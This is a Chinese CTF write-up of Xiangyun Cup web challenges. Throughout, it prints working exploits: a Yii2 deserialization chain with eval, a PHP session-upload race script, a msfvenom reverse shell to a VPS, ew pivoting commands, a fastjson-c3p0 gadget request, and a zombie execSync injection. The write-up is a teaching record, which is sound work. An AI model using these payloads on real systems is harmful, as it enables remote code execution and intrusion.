记录一下，祥云杯的wp

<!-- more -->

个人的最好成绩，web差一题ak了，当然题目也很简单就是啦。我主要是负责web方面的解题，队伍的wp也会在下面放出。

## Web

### ezyii

题目打开写的很清楚，较新的链子，看了下是[yii2.0.42的1day漏洞](https://xz.aliyun.com/t/9948)



原理不过多分析了，学弟在赛后写了个[分析](https://lxscloud.top/2021/08/24/PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%E6%9E%84%E9%80%A0POP%E9%93%BE/)挺详细的，可以看看（学弟tql）

Exp:

```php
<?php
namespace Codeception\Extension{
    use Faker\DefaultGenerator;
    use GuzzleHttp\Psr7\AppendStream;
    class  RunProcess{
        protected $output;
        private $processes = [];
        public function __construct(){
            $this->processes[]=new DefaultGenerator(new AppendStream());
            $this->output=new DefaultGenerator('jiang');
        }
    }
    echo base64_encode(serialize(new RunProcess()));
}
namespace Faker{
    class DefaultGenerator
    {
        protected $default;
        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}
namespace GuzzleHttp\Psr7{
    use Faker\DefaultGenerator;
    final class AppendStream{
        private $streams = [];
        private $seekable = true;
        public function __construct(){
            $this->streams[]=new CachingStream();
        }
    }
    final class CachingStream{
        private $remoteStream;
        public function __construct(){
            $this->remoteStream=new DefaultGenerator(false);
            $this->stream=new  PumpStream();
        }
    }
    final class PumpStream{
        private $source;
        private $size=-10;
        private $buffer;
        public function __construct(){
            $this->buffer=new DefaultGenerator('j');
            include("closure/autoload.php");
//            $a = function(){phpinfo();};
            $a = function(){eval($_POST[1]);};
            $a = \Opis\Closure\serialize($a);
            $b = unserialize($a);
            $this->source=$b;
        }
    }
}
```

直接可以命令执行



直接拿flag

.png)

---

### 安全检测

<small>这题是完全是个人凭感觉自己做出来的，很欣慰，可惜没抢到血分</small>

界面很花哨，随便登陆即可

.png)

看一下登陆的包

.png)

要跟随一个302跳转才能进去，检测网址过滤了file、flag关键字。.png)

输入网址发现进了check2.php，根据报错得知是`file_get_contents($_POST['url1']);`这样的形式根据扫目录得到的结果，存在admin目录

.png)

直接访问会被403，所以利用检测网站打ssrf，检测然后预览看，打`http://127.0.0.1/admin/`，可以发现开启了目录遍历



发现目录下有`include123.php`文件，读取得到源码

.png)

```php
<?php
$u=$_GET['u'];

$pattern = "\/\*|\*|\.\.\/|\.\/|load_file|outfile|dumpfile|sub|hex|where";
$pattern .= "|file_put_content|file_get_content|fwrite|curl|system|eval|assert";
$pattern .="|passthru|exec|system|chroot|scandir|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore";
$pattern .="|`|openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|assert|pcntl_exec|http|.php|.ph|.log|\@|:\/\/|flag|access|error|stdout|stderr";
$pattern .="|file|dict|gopher";
//累了累了，饮茶先

$vpattern = explode("|",$pattern);
var_dump($vpattern);
foreach($vpattern as $value){
    if (preg_match( "/$value/i", $u )){
        echo "检测到恶意字符";
        exit(0);
    }
}

include($u);


show_source(__FILE__);
?>
```

出题人真的苟，这么长一段黑名单，审查源码，可以读`/etc/passwd` 。但是ban了很多函数看上去根本不是想给机会rce。

#### 方法一：

仔细观察发现

 1.文件包含include 

 2.u变量可控 

 3.可以任意文件读取使用了session，所以默认`/tmp/sess_id` 会存有session的信息，读取id对应的session发现存在

于是想到`PHP_SESSION_UPLOAD_PROGRESS漏洞`

> php的session.use_strict_mode默认值为0，此时用户是可以自己定义Session ID的。
> 比如，我们在Cookie里设置PHPSESSID=flag，PHP将会在服务器上创建一个文件：/tmp/sess_flag（还有可能在 /var/lib/php/session里面）。即使此时用户没有初始化Session，PHP也会自动初始化Session。
> 产生一个键值，这个键值有ini.get(“session.upload_progress.prefix”)由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。
>
> 如果我们在其中插入一句话木马，它就会被写入sess_xxx里
>
> 
>
> 但是默认情况下，session.upload_progress.cleanup是开启的，一旦读取了所有POST数据，它就会清除进度信息，那就没用了，他读取完了会清除数据，那我们的代码就执行不了。
>
> 所以需要使用条件竞争，要赶在他还没有读取完post包上传的数据的时候就访问到这个sess_xxx文件，执行里面的代码。

直接从网上找exp修改，目的就是对个网页`check2.php`进行上传，这里填充了一堆`a`，让它去占用时间给我们条件竞争创造更多机会，利用ssrf打`include123.php`，参数`u`包含session文件来命令执行

exp：

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 8月 21, 2021
"""
import requests
import io
import threading

baseurl = "http://eci-2zefgf3p1ushlimyl69v.cloudeci1.ichunqiu.com/"
sessid = 'gyy'
PAYLOAD = '<?php eval(system(\'sh /getflag.sh\'));?>'


def getdir():
    data = {
        "url1": "http://127.0.0.1/admin/include123.php?u=/tmp/sess_" + sessid,
    }
    # cookies = "PHPSESSID=123".split("; ")
    # cookie = {}
    # for i in cookies:
    #     cookie[i.split("=")[0]] = i.split("=")[1]
    requests.post(url=baseurl + "check2.php", cookies={"PHPSESSID": sessid}, data=data, allow_redirects=True, timeout=None)
    text = requests.get(baseurl + "preview.php", cookies={"PHPSESSID": sessid}, timeout=None).text
    print(text)
    return text


def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post(url=baseurl + "check2.php", data={'PHP_SESSION_UPLOAD_PROGRESS': PAYLOAD},
                            files={'file': ('123.txt', f)}, cookies={'PHPSESSID': sessid}, allow_redirects=True,
                            timeout=None)


def read(session):
    while True:
        resp = getdir()
        if '123.txt' in resp:
            print(resp)
            event.clear()
        else:
            print("[+++++++++++++]retry")


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
```

打了phpinfo发现可行



继续


读取根目录下文件


执行`/getflag.sh`


拿到flag

#### 方法二：

赛后和 @h3h3QAQ 师傅聊了下，发现waf是可以绕过的（tqltql）

直接用反斜线绕过,payload:`./?u=<?=system('gerf\lag.sh');?>`


然后预览得到flag


太猛了

---

### 层层穿透

Apache Flink老洞了https://www.freebuf.com/vuls/220252.html

利用msf生成个jar包

` msfvenom -p java/shell_reverse_tcp LHOST=vps LPORT=1234 -f jar>/media/psf/Home/Downloads/shell.jar`

直接upload然后submit上线

.png)

题目说本机对应内网`10.10.1.12`，扫了`10.10.1.11` 的8080端口好像有东西

#### 利用ew内网穿透

利用ew内网穿透出来，放公网服务器，在靶机上用curl -O保存ew文件，然后执行，公网vps上转发流量

本人的描述可能有错误或不清楚的地方，还请师傅们多多指教

##### 公网主机

如下，执行`./ew -s lcx_listen -l 1080 -e 8888` 将本机1080的流量转交到8888


---

##### 边界主机

执行`./ew -s lcx_slave -d [vps] -e [port] -f 10.10.1.11 -g 8080`

利用可控的内网主机打通`10.10.1.11:8080` 与我们公网vps的通讯隧道



#### 网络状况描述

· 本机：即我的攻击电脑

· 可控的公网IP主机：即我的在公网的服务器

· A主机：题目给出的靶机，有公网IP：47.104.135.101，内网IP：10.10.1.12，可访问B主机

· B主机：题目内网的目标靶机，8080端口有东西

目标：访问B主机的8080端口

```
                    一台可控公网IP主机                    可控内网主机A                      主机B
+---------+     +----------------------+    |    +-------------------------+      +-------------------+
|   本机   | ->> | 1080 ->  vps -> 8888 |  防火墙  | <--    10.10.1.12   --> | ->> | 8080 -> 10.10.1.11 |
+---------+     +----------------------+    |    +-------------------------+      +-------------------+
```

---

访问到了`10.10.1.11:8080`

.png)

将题目附件的`web.jar` 反编译下，拿到了源码。

.png)

首先在`/doLogin` 路由登陆，审查源码得知 `用户名/密码` 分别为 `admin/123456` 

.png)

然后拿到cookie转去`/admin/test`路由

.png)

根据源码，这里会先过waf然后解析json，而且json长度要大于20000.png)

在github上找到了一份payload：https://github.com/depycode/fastjson-c3p0

.png)

fastjson-c3p0不出网回显利用，直接生成payload，然后复制几遍达到长度要求，改Content-Type为json，在header中添加cmd命令，获得flag



Payload:

```
POST /admin/test HTTP/1.1
Host: 49.234.89.193:1080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: JSESSIONID=20337391D87A73966C86012AB6114638;
Content-Type: application/json
cmd: cat /flag
Content-Length: 79583

{"e":{"@type":"java.lang.Class","val":"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"},"f":{"@type":"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource","userOverridesAsString":"HexAsciiSerializedMap:ACED0005737200116A6176612E7574696C2E48617368536574BA44859596B8B7340300007870770C000000103F400000000000027372002A6F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E732E6D61702E4C617A794D61706EE594829E7910940300014C0007666163746F727974002C4C6F72672F6170616368652F636F6D6D6F6E732F636F6C6C656374696F6E732F5472616E73666F726D65723B78707372003A6F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E732E66756E63746F72732E496E766F6B65725472616E73666F726D657287E8FF6B7B7CCE380200035B000569417267737400135B4C6A6176612F6C616E672F4F626A6563743B4C000B694D6574686F644E616D657400124C6A6176612F6C616E672F537472696E673B5B000B69506172616D54797065737400125B4C6A6176612F6C616E672F436C6173733B7870707400136765744F757470757450726F7065727469657370737200116A6176612E7574696C2E486173684D61700507DAC1C31660D103000246000A6C6F6164466163746F724900097468726573686F6C6478703F4000000000000C770800000010000000017371007E000B3F4000000000000C770800000010000000017372003A636F6D2E73756E2E6F72672E6170616368652E78616C616E2E696E7465726E616C2E78736C74632E747261782E54656D706C61746573496D706C09574FC16EACAB3303000649000D5F696E64656E744E756D62657249000E5F7472616E736C6574496E6465785B000A5F62797465636F6465737400035B5B425B00065F636C61737371007E00084C00055F6E616D6571007E00074C00115F6F757470757450726F706572746965737400164C6A6176612F7574696C2F50726F706572746965733B787000000000FFFFFFFF757200035B5B424BFD19156767DB37020000787000000001757200025B42ACF317F8060854E0020000787000000DCFCAFEBABE0000003400CD0A0014005F090033006009003300610700620A0004005F09003300630A006400650A003300660A000400670A000400680A0033006907006A0A0014006B0A0012006C08006D0B000C006E08006F0700700A001200710700720A007300740700750700760700770800780A0079007A0A0018007B08007C0A0018007D08007E08007F0800800B001600810700820A008300840A008300850A008600870A002200880800890A0022008A0A0022008B0A008C008D0A008C008E0A0012008F0A009000910A009000920A001200930A003300940700950A00120096070097010001680100134C6A6176612F7574696C2F486173685365743B0100095369676E61747572650100274C6A6176612F7574696C2F486173685365743C4C6A6176612F6C616E672F4F626A6563743B3E3B010001720100274C6A617661782F736572766C65742F687474702F48747470536572766C6574526571756573743B010001700100284C6A617661782F736572766C65742F687474702F48747470536572766C6574526573706F6E73653B0100063C696E69743E010003282956010004436F646501000F4C696E654E756D6265725461626C650100124C6F63616C5661726961626C655461626C65010004746869730100204C79736F73657269616C2F7061796C6F6164732F436F6D6D6F6E4563686F313B01000169010015284C6A6176612F6C616E672F4F626A6563743B295A0100036F626A0100124C6A6176612F6C616E672F4F626A6563743B01000D537461636B4D61705461626C65010016284C6A6176612F6C616E672F4F626A6563743B492956010001650100154C6A6176612F6C616E672F457863657074696F6E3B010008636F6D6D616E64730100135B4C6A6176612F6C616E672F537472696E673B0100016F01000564657074680100014907007607004C070072010001460100017101000D6465636C617265644669656C640100194C6A6176612F6C616E672F7265666C6563742F4669656C643B01000573746172740100016E0100114C6A6176612F6C616E672F436C6173733B07007007009807009901000A536F7572636546696C65010010436F6D6D6F6E4563686F312E6A6176610C003C003D0C003800390C003A003B0100116A6176612F7574696C2F486173685365740C0034003507009A0C009B009C0C005300480C009D00440C009E00440C004300440100256A617661782F736572766C65742F687474702F48747470536572766C6574526571756573740C009F00A00C00A100A2010003636D640C00A300A401000B676574526573706F6E736501000F6A6176612F6C616E672F436C6173730C00A500A60100106A6176612F6C616E672F4F626A6563740700A70C00A800A90100266A617661782F736572766C65742F687474702F48747470536572766C6574526573706F6E73650100136A6176612F6C616E672F457863657074696F6E0100106A6176612F6C616E672F537472696E670100076F732E6E616D650700AA0C00AB00A40C00AC00AD01000357494E0C009D00AE0100022F630100072F62696E2F73680100022D630C00AF00B00100116A6176612F7574696C2F5363616E6E65720700B10C00B200B30C00B400B50700B60C00B700B80C003C00B90100025C410C00BA00BB0C00BC00AD0700BD0C00BE00BF0C00C0003D0C00C100C20700990C00C300C40C00C500C60C00C700C80C003A00480100135B4C6A6176612F6C616E672F4F626A6563743B0C00C900A001001E79736F73657269616C2F7061796C6F6164732F436F6D6D6F6E4563686F3101001A5B4C6A6176612F6C616E672F7265666C6563742F4669656C643B0100176A6176612F6C616E672F7265666C6563742F4669656C640100106A6176612F6C616E672F54687265616401000D63757272656E7454687265616401001428294C6A6176612F6C616E672F5468726561643B010008636F6E7461696E73010003616464010008676574436C61737301001328294C6A6176612F6C616E672F436C6173733B010010697341737369676E61626C6546726F6D010014284C6A6176612F6C616E672F436C6173733B295A010009676574486561646572010026284C6A6176612F6C616E672F537472696E673B294C6A6176612F6C616E672F537472696E673B0100096765744D6574686F64010040284C6A6176612F6C616E672F537472696E673B5B4C6A6176612F6C616E672F436C6173733B294C6A6176612F6C616E672F7265666C6563742F4D6574686F643B0100186A6176612F6C616E672F7265666C6563742F4D6574686F64010006696E766F6B65010039284C6A6176612F6C616E672F4F626A6563743B5B4C6A6176612F6C616E672F4F626A6563743B294C6A6176612F6C616E672F4F626A6563743B0100106A6176612F6C616E672F53797374656D01000B67657450726F706572747901000B746F55707065724361736501001428294C6A6176612F6C616E672F537472696E673B01001B284C6A6176612F6C616E672F4368617253657175656E63653B295A01000967657457726974657201001728294C6A6176612F696F2F5072696E745772697465723B0100116A6176612F6C616E672F52756E74696D6501000A67657452756E74696D6501001528294C6A6176612F6C616E672F52756E74696D653B01000465786563010028285B4C6A6176612F6C616E672F537472696E673B294C6A6176612F6C616E672F50726F636573733B0100116A6176612F6C616E672F50726F6365737301000E676574496E70757453747265616D01001728294C6A6176612F696F2F496E70757453747265616D3B010018284C6A6176612F696F2F496E70757453747265616D3B295601000C75736544656C696D69746572010027284C6A6176612F6C616E672F537472696E673B294C6A6176612F7574696C2F5363616E6E65723B0100046E6578740100136A6176612F696F2F5072696E745772697465720100077072696E746C6E010015284C6A6176612F6C616E672F537472696E673B2956010005666C7573680100116765744465636C617265644669656C647301001C28295B4C6A6176612F6C616E672F7265666C6563742F4669656C643B01000D73657441636365737369626C65010004285A2956010003676574010026284C6A6176612F6C616E672F4F626A6563743B294C6A6176612F6C616E672F4F626A6563743B0100076973417272617901000328295A01000D6765745375706572636C617373010040636F6D2F73756E2F6F72672F6170616368652F78616C616E2F696E7465726E616C2F78736C74632F72756E74696D652F41627374726163745472616E736C65740700CA0A00CB005F0021003300CB000000030008003400350001003600000002003700080038003900000008003A003B000000040001003C003D0001003E0000005C000200010000001E2AB700CC01B3000201B30003BB000459B70005B30006B8000703B80008B100000002003F0000001A0006000000140004001500080016000C001700160018001D001900400000000C00010000001E004100420000000A004300440001003E0000005A000200010000001A2AC6000DB200062AB6000999000504ACB200062AB6000A5703AC00000003003F0000001200040000001D000E001E001000210018002200400000000C00010000001A00450046000000470000000400020E01000A003A00480001003E000001D300050003000000EF1B1034A3000FB20002C6000AB20003C60004B12AB8000B9A00D7B20002C70051120C2AB6000DB6000E9900452AC0000CB30002B20002120FB900100200C7000A01B30002A7002AB20002B6000D121103BD0012B60013B2000203BD0014B60015C00016B30003A700084D01B30002B20002C60076B20003C6007006BD00184D1219B8001AB6001B121CB6001D9900102C03120F532C04121E53A7000D2C03121F532C041220532C05B20002120FB90010020053B20003B900210100BB002259B800232CB60024B60025B700261227B60028B60029B6002AB20003B900210100B6002BA700044DB12A1B0460B80008B100020047006600690017007A00E200E500170003003F0000006A001A000000250012002600130028001A0029002C002A0033002B0040002C0047002F0066003300690031006A0032006E0037007A003A007F003B008F003C0094003D009C003F00A1004000A6004200B3004400D7004500E2004700E5004600E6004800E7004B00EE004D00400000002A0004006A00040049004A0002007F0063004B004C0002000000EF004D00460000000000EF004E004F0001004700000022000B1200336107005004FC002D07005109FF003E0002070052010001070050000006000A005300480001003E000001580002000C000000842AB6000D4D2CB6002C4E2DBE360403360515051504A200652D1505323A06190604B6002D013A0719062AB6002E3A071907B6000DB6002F9A000C19071BB80030A7002F1907C00031C000313A081908BE360903360A150A1509A200161908150A323A0B190B1BB80030840A01A7FFE9A700053A08840501A7FF9A2CB60032594DC7FF85B100010027006F007200170003003F0000004200100000005000050052001E00530024005400270056002F0058003A00590043005B0063005C0069005B006F00620072006100740052007A0065007B00660083006800400000003E00060063000600540046000B0027004D004D00460007001E00560055005600060000008400570046000000000084004E004F00010005007F00580059000200470000002E0008FC000507005AFE000B07005B0101FD003107005C070052FE00110700310101F8001942070050F90001F800050001005D00000002005E707400016170770100787400017878737200116A6176612E6C616E672E496E746567657212E2A0A4F781873802000149000576616C7565787200106A6176612E6C616E672E4E756D62657286AC951D0B94E08B020000787000000000787871007E000D78;"},"
（把上面两段再复制两遍）
}
```

.jpg)

### crawler_z

观察 /user/profile 和 /user/verify 路由可知，profile 在处理 bucket 的更新时是先进行了更新再生成了 token。

而 verify 仅仅判断了库中是否存在所提交的 token 并且其 valid 为 true。

那么此时即存在了一个逻辑漏洞，先正常提交一次 bucket 更新，使得程序写入一个可行的 token，然后再次请求 profile 更新 bucket 为 SSRF 的值。使用第一次得到的 token 对第二次的恶意 bucket 进行 verify，从而成功达成 SSRF。由于此时的 bucket 被进行了如下校验。

```js
  static checkBucket(url) {
      try {
          url = new URL(url);
      } catch (err) {
          return false;
      }
      if (url.protocol != "http:" && url.protocol != "https:") return false;
      if (url.href.includes('oss-cn-beijing.ichunqiu.com') === false) return false;
      return true;
  }
```

因此我们构造链接的形式被迫变为 http://HOST#oss-cn-beijing.ichunqiu.com  也就是说我们只能使用指定协议。

此时可以使用 302 跳转进行绕过，在服务器上写如下 PHP 代码来进行跳转，从而达成任意文件读取。

```php
<?php header("Location: file:///readflag"); ?>
```

此时再提交链接后访问 /bucket 路由即可触发一次访问。而访问所返回的内容则是根目录下 /readflag 的内容。

结合题目的提示可知我们需要 RCE，而读取到了 /readflag 则指明了方向。此时可以发现程序使用了 zombie 进行了访问，因此可以采用 zombie code injection 来进行 RCE，进而带出 flag。

公网vps写入：

```javascript
<script>document.write(this["constructor"]["constructor"]("return(global.process.mainModule.constructor._load('child_process').execSync('/readflag').toString())")());</script>
```


exp:

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 8月 22, 2021
"""
import requests
import random
baseurl = "http://eci-2zedk1cbvvahhu2yuuyl.cloudeci1.ichunqiu.com:8888/"
session = requests.session()
header = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36"
}
def verify(token):
    url = baseurl+ ("user/verify?token=%s" % token)
    session.get(url)
def register(username,password):
    url = baseurl + "signup"
    data = {
        "username": username,
        "password": password,
        "password_confirm": password
    }
    # print(session.post(url, data=data, headers=header).text)
    session.post(url, data=data, headers=header)
    print("regist")

def login(username,password):
    url = baseurl + "signin"
    data = {
        "username": username,
        "password": password,
    }
    # print(session.post(url, data=data, headers=header))
    session.post(url, data=data, headers=header)
    print("login")
def modify(payload):
    url = baseurl + "user/profile"
    data1 = {
        "affiliation": "ichunqiu123",
        "age": 12,
        "bucket": "https://895cdc8a2e67bbb23b5e6335fca98bc2.oss-cn-beijing.ichunqiu.com/"
    }
    try:
        res = session.post(url, data=data1, allow_redirects=False, headers=header).text
        # print(res)
        token = res.split("?token=")[1]
        print(token)
    except Exception as e:
        if "The page may be loading ..." in str(e):
            pass
        else:
            print(e)
    data2 = {
        "affiliation": "ichunqiu123",
        "age": 12,
        "bucket": payload+"#oss-cn-beijing.ichunqiu.com"
    }
    session.post(url, data=data2, allow_redirects=False, headers=header)
    verify(token)

def view():
    url = baseurl + "user/bucket"
    res = session.get(url).text.replace("\\n", "\n")
    if "The page may be loading ..." not in res:
        print(res)

if __name__ == '__main__':
    username = random.random()
    password = random.random()
    register(username, password)
    login(username, password)
    # modify("http://vps/test.php?1=file:///flag")
    modify("http://vps/test3.php")
    view()
```

---

### Secrets_Of_Admin

先看database.ts，直接给出账号密码，`admin/e365655e013ce7fdbdbf8f27b418c8fe6dc9354dc4c0328fa02b0ea547659645`,同时还有flag的sum值.png)

flag在file/flag中，审查代码发现我们要**不是**superuser**且是**admin才可以获取file下的文件，superuser被ban了

.png)

看`/`路由，由于database只要一个admin用户，所以直接登录，就是`isadmin`为true了

.png)

重定向到`/admin`路由，get方法没啥好说的，如果属于user的文件存在就写入cookie。 

```js
const files = await DB.listFile(token.username);
if (files) {
    res.cookie('token', {username: token.username, files: files, isAdmin: true }, { signed: true })
}
```

post方法可以看到ban掉了`<`/`script`/`>`等，从出题人的思路讲，可能是要打xss

```js
let { content } = req.body;
if ( content == '' || content.includes('<') || content.includes('>') || content.includes('/') || content.includes('script') || content.includes('on')){
    // even admin can't be trusted right ? :)  
    return res.render('admin', { error: 'Forbidden word 🤬'});
```

使用了html-pdf依赖用于生成pdf，然后保存文件到xx.pdf

```js
const filename = `${uuid()}.pdf`
```

在`/api/files`路由下带参数可以加一条log，带`/sumid`可以访问文件，可以看到superuser被ban了 

```js
if (token.username == 'superuser') {
    return res.send('Superuser is disabled now');   
}
```

但是关键点在于读取到文件后会进入模版渲染，加上前面ban了xss的东西，推测就是打xss了

```js
let filename = await DB.getFile(token.username, req.params.id)
if (fs.existsSync(path.join(__dirname , "../files/", filename))){
    return res.send(await readFile(path.join(__dirname , "../files/", filename)));
} else {
    return res.send('No such file!');
}
```

由于html-pdf 用到了phanthomjs渲染，因此存在ssrf。我们可以使用数组绕过`.includes(xxx)`的检测。并插入ssrf的内容

Payload:

```
content[]=<script>location.href="http://127.0.0.1:8888/api/files?username=admin&filename=../files/flag&checksum=be5a14a8e504a66979f6938338b0662c";</script>
```

.png)

容器打完后会崩，试了几次，然后访问下`/admin`路由 .png)

